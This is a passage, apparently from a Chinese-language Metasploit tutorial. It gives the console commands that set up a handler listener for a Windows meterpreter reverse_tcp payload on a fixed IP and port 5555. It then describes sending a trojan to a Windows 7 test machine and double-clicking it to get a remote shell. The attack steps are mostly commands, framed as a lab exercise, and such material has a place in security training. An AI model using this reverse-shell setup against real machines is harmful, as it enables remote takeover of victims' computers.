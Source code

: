 

启动msf的监听程序。

```
msf6 > use exploit/multi/handle
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.0.208
msf6 exploit(multi/handler) > set lport 5555
msf6 exploit(multi/handler) > exploit
```

将文件发送至我们的Windows7的测试环境。双击运行木马，等待返回meterpreter，直接可以进入shell

同一时间，被攻击的主机则启动了连接远程5555端口的信息.



六 armitage的使用

